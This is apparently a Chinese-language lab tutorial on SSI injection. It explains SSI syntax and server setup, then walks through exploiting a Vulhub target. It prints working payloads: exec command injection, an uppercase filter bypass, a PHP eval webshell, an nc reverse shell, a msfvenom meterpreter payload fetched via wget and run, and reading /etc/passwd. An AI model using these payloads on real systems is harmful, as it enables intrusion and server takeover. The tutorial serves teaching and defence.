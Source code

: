 

# SSI 攻防技术简易刨析 - 先知社区

SSI 攻防技术简易刨析

- - -

## 基本介绍

SSI(Server Side Includes，即服务器端包含) 是一种用于网页开发的服务器端技术，它允许网页开发者在网页中插入 SSI 指令来动态地生成网页内容，这些指令可以用于包含外部文件、执行条件判断和循环等操作，从而简化网页开发和维护工作，它的强大之处就在于我们有时候只需要一条简单的 SSI 命令就可以实现整个网站的内容更新，例如：时间和日期的动态显示、执行 Shell 和 CGI 脚本程序等复杂的功能，SSI 可以称得上是那些资金短缺、时间紧张、工作量大的网站开发人员的最佳帮手

## 语法格式

SHTML(Server Side Includes HTML) 是一种扩展名为".shtml"的网页文件格式，它是一种结合了 HTML 和 SSI(Server Side Includes) 功能的文件类型，SHTML 文件可以包含静态的 HTML 内容以及服务器端脚本代码以实现动态内容的生成和展示，在 SHTML 文件中 SSI 指令基本格式如下所示，需要特别注意的是其语法格式必须是以 html 的注释符<!--开头、且后面紧接#符号和 SSI 命令，它们期间不能存在空格

```bash
<!--#command param="value"-->
```

SSI 中常见的几种指令如下所示：  
A、config 命令  
基本描述：config 命令主要用于配置和设置 SSI 的参数和选项  
语法格式：  
简易示例：

```bash
#设置错误页面
<!--#config errordocument="404 /errors/notfound.html" -->

#设置日期和时间格式
<!--#config timefmt="%Y-%m-%d %H:%M:%S" -->
```

B、include 命令  
基本描述：include 命令用于将其他文件的内容插入到当前网页中  
语法格式：或  
简易示例：

```bash
#包含文件
<!--#include file="header.html" -->

#包含虚拟文件
<!--#include virtual="/includes/header.html" -->
```

C、echo 命令  
基本描述：echo 命令用于显示指定变量的值或其他内容  
语法格式：  
简易示例：

```bash
#显示变量值
<!--#set var="pageTitle" value="Welcome" -->
<!--#echo var="pageTitle" -->

#显示服务器环境变量
<!--#echo var="SERVER_NAME" -->
```

D、fsize 命令  
基本描述：fsize 命令用于显示指定文件的大小  
语法格式：  
简易示例：

```bash
<!--#fsize file="image.jpg" -->
```

E、flastmod 命令  
基本描述：flastmod 命令用于显示指定文件的最后修改时间  
语法格式：  
简易示例：

```bash
<!--#flastmod file="index.html" -->
```

F、exec 命令  
基本描述：exec 命令用于在服务器上执行指定的命令并将结果输出到网页中  
语法格式：  
简易示例：

```bash
<!--#exec cmd="ls -l" -->
```

G、for 命令  
基本描述：for 命令用于定义一个变量并在指定范围内循环执行相应的代码块  
语法格式：

```bash
<!--#for var="variable" start="start" end="end" -->
    <!--#echo var="variable" -->
<!--#endfor -->
```

简易示例：假设需要在网页中显示数字 1 到 5，可以使用循环命令来实现

```bash
<!--#for var="i" start="1" end="5" -->
    <!--#echo var="i" -->
<!--#endfor -->
```

H、if 命令  
基本描述：if 命令用于根据条件判断来选择性地显示不同的内容  
语法格式：

```bash
<!--#if expr="expression" -->
    <!--#echo var="variable" -->
<!--#else -->
    <!--#echo var="other_variable" -->
<!--#endif -->
```

简易示例：假设有一个变量 isLoggedIn 用于判断用户是否已登录，根据该条件判断可以显示不同的欢迎信息

```bash
<!--#if expr="$isLoggedIn eq 'true'" -->
    <p>Welcome, user!</p>
<!--#else -->
    <p>Welcome, guest!</p>
<!--#endif -->
```

备注：SSI 的语法虽然非常简单，但在使用中需注意以下几点

-   SSI 大小写敏感
-   <!--与#之间无空格
-   value 需写在引号中

## 服务启动

### IIS

在 IIS(Internet Information Services) 中配置 SSI(Server Side Includes) 可按照以下步骤进行操作：  
1、打开 IIS 管理器，您可以在 Windows 服务器上的"管理工具"或通过运行"inetmgr"命令来打开它  
2、在左侧的导航栏中展开服务器名称并选择您要配置的站点  
3、双击"处理程序映射"图标  
4、在右侧的"操作"面板中单击"添加模块映射"  
5、在"添加模块映射"对话框中配置以下设置  
请求路径：\*.shtml(或您希望启用 SSI 的文件扩展名）  
模块：ServerSideIncludeModule  
可执行文件：%windir%\\system32\\inetsrv\\ssinc.dll  
名称：任意指定一个名称，例如："SSI"  
6、单击"确定"保存模块映射配置  
7、返回到 IIS 管理器主窗口，在站点上右键单击，选择"高级设置"  
8、在"高级设置"对话框中找到"默认文档"属性并确保您的默认文档列表中包含 SSI 文件 (例如：default.shtml)  
9、单击"确定"保存更改

### Nginx

Step 1：首先我们要确保已安装 Nginx 的 ngx\_http\_ssi\_module 模块，这一点可以通过运行以下命令检查是否已启用该模块，如果在输出中存在"--with-http\_ssi\_module"，则说明模块已启用

```bash
nginx -V
```

Step 2：打开 Nginx 配置文件并如下几项

```bash
ssi on;
ssi_silent_errors off;
ssi_types text/shtml;
```

完整示例如下：

```bash
server{
    listen 80;
    server_name www.al1ex.com

    // 配置SSL
    ssi on;                 // 开启SSI支持
    ssi_silent_errors on;   // 指定是否在SSI处理过程中忽略错误,如果将其设置为on，当SSI命令无法执行或出现错误时，Nginx将继续处理页面而不中断并显示错误消息
    ssi_types text/html;    // 指定哪些响应类型将启用SSI功能,在此示例中我们将SSI应用于text/html类型的响应

    location / {
        root html;
        index index.html index.htm;
    }
}
```

### Apache

在 Apache 中配置 SSI 需要修改其配置文件，流程大致如下：  
Step 1：打开 Apache 的配置文件，确保在配置文件中存在以下行以启用 mod\_include 模块

```bash
LoadModule include_module libexec/apache2/mod_include.so
```

Step 2：在配置块中添加以下指令以启用 SSI 功能，随后保存并关闭配置文件，重新启动 Apache 即可

```bash
Options +Includes                   //启用服务器端包含
AddType text/html .shtml            //指定 SSI 文件的扩展名为.shtml，您可以根据需要使用其他扩展名
AddOutputFilter INCLUDES .shtml     //将输出过滤器设置为 INCLUDES，以便在.shtml 文件上应用 SSI 处理
```

## 漏洞介绍

造成 SSI 漏洞的主要原因在于当用户可以控制 SSI 指令的部分内容时，攻击者可以插入要执行的恶意代码，例如：如果开发者未对用户的输入进行适当的过滤处理，那么攻击者便可以差入类似""的指令来实现文件读取等各种恶意操作，同事也可以进行反弹 shell，这一点我们在下面的文章内容中进行介绍

## 漏洞挖掘

### 利用条件

-   Web 服务器端支持 SSI
-   用户输入的内容，返回在 HTML 页面中
-   参数未进行输入过滤或者过滤不严格导致可绕过

### 相关业务

在很多业务中页面中一小部分在动态输出的时候经常会使用到 SSI，常见的有以下几种：

-   访客 IP
-   当前时间
-   定位信息
-   文件相关的属性字段

PS：网站存在.stm,.shtm 和.shtml 文件，那说明该网站支持 SSI 指令，由于后缀名并非是强制规定的，因此如果没有发现任何.shtml 文件也并不意味着目标网站没有受到 SSI 注入攻击的可能

## 靶机示例

### 发现漏洞

这里我们以 Vulhub 中的一个靶机为例进行简易介绍，在前期的信息收集阶段我们通过目录扫描发现目标服务器上存在 index.shtml 文件，说明此站点支持 SSI 指令，基于此我们直接访问 index.shtml，发现页面展示了一个 SSI 命令，这也在暗示我们这个网站存在 SSI 漏洞  
[![](assets/1703831460-0ce266884b1155327761449daa7970e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133325-9f899848-a542-1.png)  
我们抱着试一试的心态对首页仅有的输入框进行 Fuzzing 测试

```bash
<!--#EXEC cmd="whoami" -->
```

[![](assets/1703831460-0f4c0f54c836969d1eedf5efa28430d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133410-b9f2b3cc-a542-1.png)  
随后我们看到页面中回显了执行的结果，从结果中我们可以看到这里的 SSI 注入点为第二个框，也就是 Feedback，同时我们发现了一个 ssi.shtml 页面

[![](assets/1703831460-026ca6d3f03b2a3949c297e191ae778e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133447-d06a5088-a542-1.png)

[![](assets/1703831460-27d846da2cdd0451c66ed52285c8a0af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133517-e206a1fc-a542-1.png)

### 普通查询

随后下面的测试我们在 burpsuite 中进行测试

```bash
#文档名称
<!--#echo var="DOCUMENT_NAME"-->
```

[![](assets/1703831460-10e4490a35d56ec3c043e24eec263d8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133755-4025f224-a543-1.png)

[![](assets/1703831460-c95f270ab36a5569cbe940e0443e6e43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133812-4a5ce108-a543-1.png)

```bash
#当前时间：
<!--#echo var="DATE_LOCAL"-->
```

[![](assets/1703831460-e2ecc64da459f004ecb6474fdd58a165.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133838-59c3628e-a543-1.png)

[![](assets/1703831460-6881a84d9b976a1b5d1204223b4c0db6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133849-60c2d5e2-a543-1.png)

```bash
#IP 地址信息
<!--#echo var="REMOTE_ADDR"-->
```

[![](assets/1703831460-b297b5ee322c891f4beb77c80e48e15b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133913-6e7b04b6-a543-1.png)

[![](assets/1703831460-643d845fb878c6d9536dbc3df3786cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133925-75ab4fc0-a543-1.png)

### 执行命令

当我们发现 SSI 漏洞时我们可以借助 exec 指令来实现命令执行 (这里很多人可能会好奇为啥这里是 EXEC，而不是 exec，这是因为此靶机有一层检查，但是结合之前我们说的 SSI 对大小写敏感所以我们通过大写的方式实现注入利用)：

```bash
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-9c1ea38d500dfed95c588c466834a68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134153-ce454636-a543-1.png)

[![](assets/1703831460-b6920d4bd27901c0aed672e731884fe6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134331-086b92f2-a544-1.png)

### Webshell

由于上面查看的环境中文件以 php 结尾，故此我们可以判断目标环境为 php 环境，所以我们可以直接通过 SSI 漏洞来写入 PHP 木马文件实现 getshell 目的

```bash
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-eddc962106a25eca2a2186d6957c7d69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134402-1b4124a0-a544-1.png)  
[![](assets/1703831460-38ee8d712ce6756916b5f380b5ec319f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134414-2209060e-a544-1.png)  
随后我们进行一个列目录的操作

```bash
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-c29035c030ad95e1132fe5004bdd7e22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134443-3394e3ac-a544-1.png)  
随后可以看到 a.php 文件被上传到服务器端  
[![](assets/1703831460-c52b8d03d50b46cfbd0920a862533707.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134500-3d736042-a544-1.png)  
然后我们直接使用蚁剑进行链接  
[![](assets/1703831460-b3300d986a917b4f605668db2290f90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134520-49ccfc40-a544-1.png)  
随后获取到服务器端的 shell 权限  
[![](assets/1703831460-6495502c244d11a2f0af1494173c2927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134537-538ef120-a544-1.png)

### 反弹 shell

既然 SSI 的指令可以用于执行系统命令那么我们有没有方法可以实现反弹 shell 呢？与其猜想，不如一试

```bash
#使用 nc 反弹 shell
<!--#EXEC cmd="nc 192.168.204.135 9999 -e /bin/bash"-->
```

[![](assets/1703831460-6ec5638c950f0cbd63c9605955bed0e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134641-79ba52c2-a544-1.png)  
[![](assets/1703831460-f4b6199b3e22bc344f67d8c04b82725a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134651-800239b0-a544-1.png)  
但是发现并未反弹 shell 回来

[![](assets/1703831460-284e029b743bbde3c70997ac9e7b6042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134712-8c2b9fb0-a544-1.png)

后来发现目标主机虽然有 nc，但是属于阉割版本，没有-e 参数，无法反弹  
[![](assets/1703831460-52509f35a8f57560498f04c2aee26b06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134814-b116e604-a544-1.png)

### MSF 反弹

首先生成 pyton 木马文件

```bash
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.204.135 lport=4444 -f raw > shell.py
```

[![](assets/1703831460-eb48e958e5a3b543a48c65be2a4be4ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134839-c00e84a0-a544-1.png)  
在 MSF 中建立木马监听

```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 192.168.204.135
set lport 4444
exploit
```

[![](assets/1703831460-e42db718f3239e880ad43ba9af1a29a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134933-e016698e-a544-1.png)  
随后使用 python 建立一个简易的 http 服务用于托管 shell.py 文件

```bash
python2 -m SimpleHTTPServer 1234
```

[![](assets/1703831460-f9ebe297ba1dd84bcdf146e90f89d11a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134957-ee656030-a544-1.png)  
然后构造 SSI 注入语句执行木马文件

```bash
<!--#EXEC cmd="wget http://192.168.204.135:1234/shell.py"-->
```

[![](assets/1703831460-da7ab00eb9ec9beee3bdd938cb5a2be8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135027-009509fe-a545-1.png)  
[![](assets/1703831460-c84228bfd130d757d3a1ff32ab946e6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135037-06b5459c-a545-1.png)  
给文件赋予权限：

```bash
<!--#EXEC cmd="chmod 777 shell.py"-->
```

[![](assets/1703831460-2c4400171d24afa58a449eff4cef7d3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135101-14edf1b8-a545-1.png)  
随后执行木马文件

```bash
<!--#EXEC cmd="python shell.py"-->
```

[![](assets/1703831460-0ecd6a4c5a8ab46d4338ba1a29f2d02f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135123-21d8146c-a545-1.png)  
收到请求记录  
[![](assets/1703831460-27ddf7128ebc831bde58b4a412f41f91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135154-346afefa-a545-1.png)  
获取 meterreter 操作终端  
[![](assets/1703831460-96d3f84fa547d5c32ef9900a563ac9df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135329-6cdbd32c-a545-1.png)

## 另类利用

在测试任意文件上传漏洞的时候如果目标服务端可能不允许上传 php 后缀的文件，但是目标服务器开启了 SSI 与 CGI 支持，此时我们可以上传一个 shtml 文件并利用语法执行任意命令

### 环境演示

环境文件以 php 为后缀，所以我们可以了解到环境为 PHP 解析环境，随后我们尝试上传 PHP 文件来 getshell  
[![](assets/1703831460-acfcadd053866529d1deb3374e9bd01c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135854-2eb80b14-a546-1.png)  
此时发现上传的 PHP 文件类型不支持  
[![](assets/1703831460-6f75cac8518a30db7c4bddcec6e1d762.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135908-37104240-a546-1.png)  
此时我们可以尝试随意输入一个路径获取后端中间件信息，发现是 Apache/2.4.25 版本，此时考虑到 php 文件上传这一条路已经不通了，而后端是 Apache，那么我们可以硬着头皮试试是否 Apache 存在 SSI 配置错误  
[![](assets/1703831460-1e0b85884f69577602d25e0081d6750e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135942-4b35ee78-a546-1.png)  
随后我们更改 shell.php 文件为 shell.shtml 并更改其内容

```bash
<!--#exec cmd="ls -al" -->
```

[![](assets/1703831460-917ed4f1f5920d77533ea6a366c41aa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142022-2e9a592c-a549-1.png)  
随后上传文件  
[![](assets/1703831460-ed0d27c87526d108d51680bb43fba85c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142043-3aea59d4-a549-1.png)  
紧接着会出现一个 shell.shtml 文件的连接，我们直接访问会得到其执行的结果：

[![](assets/1703831460-fee3157223b5830bddb98071d96cfa65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142054-419ae79e-a549-1.png)

[![](assets/1703831460-da32fcf325e201292266f43331db53d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142138-5bdb2dc6-a549-1.png)  
随后我们可以使用同样的方法上传文件获取到当前文件的路径并进行写一句话后门文件

```bash
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-030de1f8514c65729ca50a1b5a437b0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142200-689f4114-a549-1.png)  
此时在服务器端我们可以看到文件被成功写入  
[![](assets/1703831460-8b9dd0ad935728f2e203400ab76d5ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142209-6e544898-a549-1.png)  
随后使用蚁剑直接进行连接即可实现 GetShell  
[![](assets/1703831460-516f7dc28c5075ba0c101d5f877ca624.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142222-75b37d48-a549-1.png)  
[![](assets/1703831460-81f83edf44c66605daf6bb2ac5a65b91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142231-7b8cc3be-a549-1.png)  
获取到服务器的 shell 权限后我们来查看一下具体的 Apache 的错误配置信息是怎么样子的

[![](assets/1703831460-9650db4afa9dc4937cbc97d434ae10fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142247-849a37f2-a549-1.png)

[![](assets/1703831460-4c897eb3fe849bbe2cdfe93590b91a5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142252-880390dc-a549-1.png)

[![](assets/1703831460-df32231b434685d309c525d8747af900.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142257-8b106048-a549-1.png)  
上述配置是针对 Apache HTTP Server 的<directory>指令的设置，它指定了对/var/www/目录的访问权限和相关选项：</directory>

-   <Directory /var/www/>：该行指定了要配置的目录路径为 /var/www/。可以根据实际情况更改为其他目录路径
-   Options -Indexes +Includes：这行设置了目录的选项，具体解释如下：
    -   \-Indexes：禁止目录列表功能，当用户访问一个没有指定索引文件的目录时，网页服务器会显示该目录的文件列表，通过使用-Indexes 选项，禁止显示目录文件列表，增加安全性
    -   +Includes：启用 SSI(Server Side Includes) 功能，SSI 允许在网页中嵌入服务器端执行的指令从而实现动态内容的生成和插入
-   AllowOverride All：这行指定了允许使用.htaccess 文件来覆盖目录配置，.htaccess 文件是 Apache 服务器中用于在特定目录中修改配置的文件，通过设置 AllowOverride All，允许在/var/www/目录中使用.htaccess 文件来覆盖主配置文件中的设置

## 绕过思路

有时候我们在使用 SSI 注入命令时会发现 exec 等命令会被过滤处理，如果此时后端只是过滤了小写 (通常也用小写)，那么我们可以考虑使用大写的方式来绕过，例如：

```bash
#使用小写时被屏蔽
<!--#exec cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-aabcee512f12b3d8f74e67d68fefa0fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135401-800eade8-a545-1.png)  
[![](assets/1703831460-c68bb8a245714a50cd120c772be5007f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135426-8ee33546-a545-1.png)

```bash
#使用大写实现绕过
<!--#EXEC cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-27ce90d5ced7a85527483ce3b3f36cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135451-9de5bbc2-a545-1.png)

[![](assets/1703831460-e5e2b2bfc4e41555298b0fbaf0918193.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135500-a369b346-a545-1.png)

## 防御措施

-   如果不使用 SSI 服务则关闭服务器 SSI 功能
-   过滤相关 SSI 特殊字符 (`<,>,#,-,",'`)

